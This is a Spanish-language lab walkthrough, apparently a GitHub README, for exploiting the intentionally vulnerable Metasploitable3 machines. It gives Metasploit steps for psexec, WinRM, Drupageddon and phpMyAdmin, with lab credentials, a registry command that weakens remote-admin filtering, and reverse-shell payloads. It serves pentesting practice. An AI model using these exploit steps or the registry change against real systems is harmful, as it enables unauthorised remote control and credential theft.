 # Vulnerabilidades Metasploitable3
Metasploitable3 es una máquina virtual que contiene desde su creación vulnerabilidades a propósito, con el fin de que sirva como un campo de pruebas para aquellos que quieran hacer pentesting, es decir, probar a explotar la máquina mediante uno de estos vectores.

Metasploitable3 viene con dos máquina virtuales, Windows Server 2008 y Ubuntu 14.04 (sin GUI).

## Windows Server 2008
### psexec
Psexec es una herramienta de Windows que sirve de reemplazo ligero a telnet, permitiendo ejecutar procesos en otros sistemas, completando la interactividad completa para las aplicaciones de consola sin tener que instalar manualmente el software cliente.

Sin embargo, en nuestro Windows Server 2008, esta herramienta contiene un agujero de seguridad. Metasploit (una librería de scripts diseñados para pentesting) tiene un módulo llamado `exploit/windows/smb/psexec` que permite explotarlo de forma remota si se conoce la contraseña de un usuario. Por otro lado, el exploit funciona a través de SMB, por lo que el servicio y su puerto correspondiente (445) deben estar activados.

Cabe aclarar que, para que el módulo funcione, Windows Server 2008 debe tener una política concreta de seguridad desactivada, la cual es `LocalAccountTokenFilterPolicy`. De forma simplificada, esta política es un filtro que previene que se usen privilegios elevados a través de la red. Para desactivarla, se puede ejecutar este comando a través de una CMD:

```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Los pasos para realizar el exploit son los siguentes:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass vagrant
SMBPass => vagrant
msf exploit(psexec) > exploit
```

El proceso es el siguiente: Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/smb/psexec` mediante el comando `use`. Posteriormente le decimos al programa a qué IP queremos mandar el ataque, en nuestro caso a la `192.168.1.129`. Posteriormente se le indica el usuario y la contraseña que queremos utilizar para el ataque (Administrator y vagrant), y por últmo ejecutamos el exploit mediante el comando igualmente llamado `exploit`.

Por defecto, la payload (el código malicioso que se ejecuta en el dispositivo al que queremos acceder) se tratará de Meterpreter, un programa muy potente que permite gran control sobre el sistema operativo, que nos permitirá explorar, modificar, borrar archivos, extraer usuarios y contraseñas hash, etc.

### WinRM
WinRM es un protocolo de Microsoft que permite acceder o intercambiar información de gestión de servidores y software a través de una red que viene preinstalado en los sistemas operativos Windows más modernos.

En Windows Server 2008 existe una vulnerabilidad en la que, si conocemos las credenciales de un usuario o las crackeamos, podemos manipular la máquina de forma remota con utilidades como Meterpreter. Si el servicio de WinRM se encuentra activo, podemos hacer uso de `exploits/windows/winrm/winrm_script_exec` para aprovecharnos.

Los pasos para realizar el exploit son los siguientes:

```
msf exploit(handler) > use exploit/windows/winrm/winrm_script_exec
payload => windows/meterpreter/reverse_tcp
msf exploit(winrm_script_exec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(winrm_script_exec) > set USERNAME vagrant
USERNAME => vagrant
msf exploit(winrm_script_exec) > set PASSWORD vagrant
PASSWORD => vagrant
msf exploit(winrm_script_exec) > exploit
```

El proceso es el siguiente:  Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/winrm/winrm_script_exec` mediante el comando `use`. Posteriormente seleccionamos a qué IP queremos dirigir el ataque, en este caso a la `192.168.1.129`. Luego seleccionamos el usuario y contraseña con la cual haremos posible el exploit, en este caso `vagrant` y 'vagrant'. Por último, ejecutaremos `exploit` para proceder.

Al igual que antes, meterpreter será la payload por defecto. Si queremos cambiarla, podemos hacer uso del comando `show payloads` para ver todos los payloads disponibles, y luego el comando `use payload [PAYLOAD A USAR]` para seleccionarlo.

## Ubuntu 14.04
### Drupal HTTP
Drupal es una aplicación gratuita y de código abierto que puede ser usado para crear y gestion contenido en páginas webs, parecido a otras aplicaciones como Wordpress. Se caracteriza por ser versátil y estar centrada en desarrolladores y en ofrecer más opciones de personalización.

En esta versión de Ubuntu y Drupal, existe una vulnerabilidad que permite acceder como usuario de forma remota a la terminal del sistema Linux, tan solo con conocer la IP del dispositivo y sin tener que conocer usuarios ni sistemas. Para usar el exploit, tan solo es necesario (a parte de la IP) conocer/intuir dónde se encuentra el directorio `drupal/`.

Los pasos para realizar el exploit son los siguientes:

```
msf > use exploit/multi/http/drupal_drupageddon
msf exploit(multi/http/drupal_drupageddon) > set rhost 192.168.1.136
rhost => 192.168.1.136
msf exploit(multi/http/drupal_drupageddon) > set targeturi /drupal/
targeturi => /drupal/
msf exploit(multi/http/drupal_drupageddon) > set payload php/reverse_perl
payload => php/reverse_perl
msf exploit(multi/http/drupal_drupageddon) > exploit
```

El proceso es el siguiente:  Abrimos la terminal de metasploit, y seleccionamos `exploit/multi/http/drupal_drupageddon` mediante el comando `use`. Seleccionamos la IP del dispositivo con el que vamos a hacer pentesting, en este caso `192.168.1.136`. Luego, al atributo `targeturi` le asigno el directorio `drupal/`, para posteriormente asignar la payload `php/reverse_perl`. Esto último es opcional, ya que por defecto se selecciona automáticamente el programa meterpreter en su versión de PHP, pero escogemos este otro payload que permite conectarnos directamente a la consola. Por último usamos `exploit` para iniciar el ataque.

Al ejecutarlo, si sale bien estaremos en la consola de Ubuntu de forma remota como si fuera una shell normal, estando probablemente logueados como el usuario `www-data`.

### phpMyAdmin
phpMyAdmin es una herramienta con interfaz en web de administración gratuita y de código abierto para bases de datos MySQL y MariaDB. Está escrita en su mayoría en PHP, y proporciona la posibilidad de poner manejar bases de datos con sus tablas, columnas, relaciones, índices, usuarios, etc.

Al igual que con el resto de ejemplos, en esta versión existe una vulnerabilidad que permite la ejecución de código de forma remota. Para ello, haremos uso del módulo `exploit/multi/http/phpmyadmin_preg_replace`. Para hacer uso de él, necesitaremos saber la contraseña de un usuario de phpMyAdmin y la dirección IP del equipo a atacar.

Los pasos para realizar el exploit son los siguientes:

```
msf > use exploit/multi/http/phpmyadmin_preg_replace
msf exploit(multi/http/phpmyadmin_preg_replace) > set password sploitme
password => sploitme
msf exploit(multi/http/phpmyadmin_preg_replace) > set rhosts 192.168.1.136
rhosts => 192.168.1.136
msf exploit(multi/http/phpmyadmin_preg_replace) > exploit
```

El proceso es el siguiente:  Abrimos la terminal de metasploit, y seleccionamos `exploit/multi/http/phpmyadmin_preg_replace` mediante el comando `use`. Ahora, asignaremos la contraseña con la cual loggearse dentro de phpMyAdmin bajo el usuario root, usando el comando `set password sploitme`. Tras esto, indicamos la IP de la estación que queremos atacar, por ejemplo `192.168.1.136`. Y ahora, no hace falta hacer nada más que ejecutar el comando `exploit` para iniciar el ataque.

Con esto estaremos controlando remotamente el dispositivo con dicha IP, posiblemente bajo el usuario de `www-data`. Cabe destacar que el control es a través de meterpreter, pues es el de por defecto. Sin embargo, ya sabemos que podemos cambiar el payload si queremos con el comando `set payload [PAYLOAD A USAR]`.